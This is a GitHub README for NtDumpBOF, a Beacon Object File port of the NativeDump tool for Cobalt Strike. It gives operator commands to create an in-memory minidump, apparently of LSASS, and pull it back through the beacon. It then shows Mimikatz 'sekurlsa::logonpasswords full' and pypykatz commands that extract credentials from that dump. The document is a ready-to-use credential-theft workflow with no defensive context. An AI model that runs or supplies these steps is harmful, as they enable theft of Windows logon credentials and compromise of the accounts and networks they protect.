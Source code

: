 # NtDumpBOF

BOF port of the tool https://github.com/ricardojoserf/NativeDump written by @ricardojoserf.

Import NtDump.cna and run:

```
ntdump <filename>
```
The minidump file will be created in memory and downloaded using CALLBACK_FILE and CALLBACK_FILE_WRITE.
Once downloaded it will be minidump file will be visible at **View** -> **Download**.

This can subsequently be parsed using Mimikatz

```
mimikatz # sekurlsa::minidump <file path to downloaded minidump file>
mimikatz # sekurlsa::logonpasswords full
```

Or pypykatz

```
pypykatz lsa minidump <file path to downloaded minidump file>
```
